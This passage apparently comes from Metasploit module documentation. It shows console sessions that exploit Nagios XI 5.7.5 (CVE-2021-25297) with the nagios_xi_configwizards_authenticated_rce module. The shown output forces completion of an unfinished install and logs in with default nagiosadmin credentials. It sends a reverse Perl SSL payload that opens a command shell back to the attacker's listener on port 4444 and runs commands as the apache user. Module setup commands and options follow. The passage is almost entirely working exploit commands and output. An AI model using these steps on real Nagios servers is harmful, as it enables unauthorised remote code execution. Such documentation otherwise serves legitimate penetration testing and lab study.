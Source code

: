 ```
[*] Started reverse SSL handler on 192.168.153.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Attempting to authenticate to Nagios XI...
[!] The target seems to be a Nagios XI application that has not been fully installed yet.
[*] Attempting to finish the Nagios XI installation on the target using the provided password. The username will be `nagiosadmin`.
[*] Attempting to authenticate to Nagios XI...
[!] The Nagios XI license agreement has not yet been signed on the target.
[*] Attempting to sign the Nagios XI license agreement...
[*] License agreement signed. The module will wait for 5 seconds and retry the login.
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI.
[*] Target is Nagios XI with version 5.7.5.
[+] The target appears to be vulnerable.
[*] Sending the payload...
[*] Command shell session 1 opened (192.168.153.128:4444 -> 192.168.153.132:56222) at 2023-02-07 11:33:53 -0600

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
pwd
/usr/local/nagiosxi/html/config
uname -a
Linux localhost.localdomain 3.10.0-1160.2.2.el7.x86_64 #1 SMP Tue Oct 20 16:53:08 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### CentOS7 Running NagiosXI 5.7.5 (Official OVA) - CVE-2021-25297
```
msf6 > use exploit/linux/http/nagios_xi_configwizards_authenticated_rce
[*] Using configured payload cmd/unix/reverse_perl_ssl
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set RHOST 192.168.153.132
RHOST => 192.168.153.132
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set LHOST 192.168.153.128
LHOST => 192.168.153.128
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set USERNAME nagiosadmin
USERNAME => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > set PASSWORD nagiosadmin
PASSWORD => nagiosadmin
msf6 exploit(linux/http/nagios_xi_configwizards_authenticated_rce) > show options

Module options (exploit/linux/http/nagios_xi_configwizards_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed,
                                              try to do so. This includes signing the license agreem
                                              ent.
   PASSWORD        nagiosadmin      no        Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port
                                              ][...]
   RHOSTS          192.168.153.132  yes       The target host(s), see https://github.com/rapid7/meta
                                              sploit-framework/wiki/Using-Metasploit
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This
                                               must be an address on the local machine or 0.0.0.0 to
                                               listen on all addresses.
```